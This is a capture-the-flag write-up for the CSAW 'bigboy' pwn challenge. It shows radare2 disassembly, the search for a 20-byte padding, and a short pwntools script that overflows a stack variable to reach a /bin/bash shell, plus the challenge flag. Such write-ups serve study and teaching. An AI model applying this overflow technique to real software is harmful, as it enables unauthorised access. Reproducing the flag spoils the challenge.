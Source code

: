 # bigboy
Points: 25

## Category
Pwn

## Question
>Only big boi pwners will get this one!
>
>`nc pwn.chal.csaw.io 9000`


## Solution
We are given a file named [boi](distrib/boi).
Using the _file_ command, we are able to deduce that it is a 64-bit ELF executable

```
$ file boi 
boi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1537584f3b2381e1b575a67cba5fbb87878f9711, not stripped
```

We can use radare2 to analyse the binary by doing `r2 -d ./boi`.

Do `aa` and `afl` to analyse and list the functions.

Do `s main` to seek to main function and do `pdf` to see the assembler code.

```
$ r2 -d ./boi 
Process with PID 3550 started...
= attach 3550 3550
bin.baddr 0x00400000
Using 0x400000
asm.bits 64
[0x7f215efbf210]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[0x7f215efbf210]> afl
0x00400498    3 26           sym._init
0x004004d0    1 6            sym.imp.puts
0x004004e0    1 6            sym.imp.__stack_chk_fail
0x004004f0    1 6            sym.imp.system
0x00400500    1 6            sym.imp.read
0x00400510    1 6            sym.imp.__libc_start_main
0x00400520    1 6            fcn.00400520
0x00400530    1 41           entry0
0x00400560    4 50   -> 41   sym.deregister_tm_clones
0x004005a0    3 53           sym.register_tm_clones
0x004005e0    3 28           sym.__do_global_dtors_aux
0x00400600    4 38   -> 35   entry1.init
0x00400626    1 27           sym.run_cmd
0x00400641    6 159          main
0x004006e0    4 101          sym.__libc_csu_init
0x00400750    1 2            sym.__libc_csu_fini
0x00400754    1 9            sym._fini
[0x7f215efbf210]> s main
[0x00400641]>
```

Assembler view
```asm
/ (fcn) main 159
|   main (int arg1, int arg2);
|           ; var int local_40h @ rbp-0x40
|           ; var int local_34h @ rbp-0x34
|           ; var int local_30h @ rbp-0x30
|           ; var int local_28h @ rbp-0x28
|           ; var int local_20h @ rbp-0x20
|           ; var int local_1ch @ rbp-0x1c
|           ; var int local_18h @ rbp-0x18
|           ; var int local_8h @ rbp-0x8
|           ; DATA XREF from entry0 (0x40054d)
|           0x00400641      55             push rbp
|           0x00400642      4889e5         mov rbp, rsp
|           0x00400645      4883ec40       sub rsp, 0x40               ; '@'
|           0x00400649      897dcc         mov dword [local_34h], edi  ; arg1
|           0x0040064c      488975c0       mov qword [local_40h], rsi  ; arg2
|           0x00400650      64488b042528.  mov rax, qword fs:[0x28]    ; [0x28:8]=-1 ; '(' ; 40
|           0x00400659      488945f8       mov qword [local_8h], rax
|           0x0040065d      31c0           xor eax, eax
|           0x0040065f      48c745d00000.  mov qword [local_30h], 0
|           0x00400667      48c745d80000.  mov qword [local_28h], 0
|           0x0040066f      48c745e00000.  mov qword [local_20h], 0
|           0x00400677      c745e8000000.  mov dword [local_18h], 0
|           0x0040067e      c745e4efbead.  mov dword [local_1ch], 0xdeadbeef
|           0x00400685      bf64074000     mov edi, str.Are_you_a_big_boiiiii ; 0x400764 ; "Are you a big boiiiii??"
|           0x0040068a      e841feffff     call sym.imp.puts           ; int puts(const char *s)
|           0x0040068f      488d45d0       lea rax, qword [local_30h]
|           0x00400693      ba18000000     mov edx, 0x18               ; 24
|           0x00400698      4889c6         mov rsi, rax
|           0x0040069b      bf00000000     mov edi, 0
|           0x004006a0      e85bfeffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
|           0x004006a5      8b45e4         mov eax, dword [local_1ch]
|           0x004006a8      3deebaf3ca     cmp eax, 0xcaf3baee
|       ,=< 0x004006ad      750c           jne 0x4006bb
|       |   0x004006af      bf7c074000     mov edi, str.bin_bash       ; 0x40077c ; "/bin/bash"
|       |   0x004006b4      e86dffffff     call sym.run_cmd
|      ,==< 0x004006b9      eb0a           jmp 0x4006c5
|      |`-> 0x004006bb      bf86074000     mov edi, str.bin_date       ; 0x400786 ; "/bin/date"
|      |    0x004006c0      e861ffffff     call sym.run_cmd
|      |    ; CODE XREF from main (0x4006b9)
|      `--> 0x004006c5      b800000000     mov eax, 0
|           0x004006ca      488b4df8       mov rcx, qword [local_8h]
|           0x004006ce      6448330c2528.  xor rcx, qword fs:[0x28]
|       ,=< 0x004006d7      7405           je 0x4006de
|       |   0x004006d9      e802feffff     call sym.imp.__stack_chk_fail ; void __stack_chk_fail(void)
|       `-> 0x004006de      c9             leave
\           0x004006df      c3             ret
```

From the assembly code, we can tell that it is trying to compare the value _0xdeadbeef_ to _0xcaf3baee_.

Upon closer inspection of the binary, we see that there is a _read()_ function which will give us a way to overflow the stack with our own values.

To find out how much padding we need, we can use a simple pattern such as the alphabet:
_AAAABBBBCCCCDDDDEEEEFFFFGGGG_

Let's set a breakpoint just before the _cmp_ instruction at address _0x004006a8_ by doing `db 0x004006a8`.

We can now run the program by doing `dc`. We can get the registers at the breakpoint by doing `dr eax`.

```
[0x00400641]> dc
Are you a big boiiiii??
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP
hit breakpoint at: 4006a8
|ERROR| Invalid command 'GGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP' (0x47)
[0x004006a8]> dr eax
0x46464646
[0x004006a8]> 
```

As we can see, the register _eax_ has been overwritten from _0xdeadbeef_ to _0x46464646_. Using Python, we can easily check what character that is

```python
>>> chr(0x46)
'F'
```

Now we can calculate the padding required by finding out the length of characters required before reaching the first _F_

```python
>>> len('AAAABBBBCCCCDDDDEEEE')
20
```

Now we can to overwrite _eax_ with whatever value we want. In this case, they want it to be _0xcaf3baee_. We will need little endian formatting.

Converting _0xcaf3baee_ to little endian we get _\xee\xba\xf3\xca_. This can be done by using the _struct_ module in python

```python
>>> import struct
>>> struct.pack('I', 0xcaf3baee)
'\xee\xba\xf3\xca'
```

Now we can write our exploit script. First we pad using letter 'A's. We figured out previously that the padding is _20_. We also found out that the payload is _\xee\xba\xf3\xca_. We can combine these 2 information and send to the remote server, with the help of pwntools.

```python
from pwn import *

padding = 'A' * 20 # Creates a padding of 20 bytes
payload = p32(0xcaf3baee) # Sets value to overwrite. Similar to struct.pack('I', 0xcaf3baee)
exploit = padding + payload
# Send payload to remote server.
```

Working solution in [solve.py](solve.py)

### Flag
`flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}`

## Credits
Solved by: [@PlatyPew](https://github.com/PlatyPew)
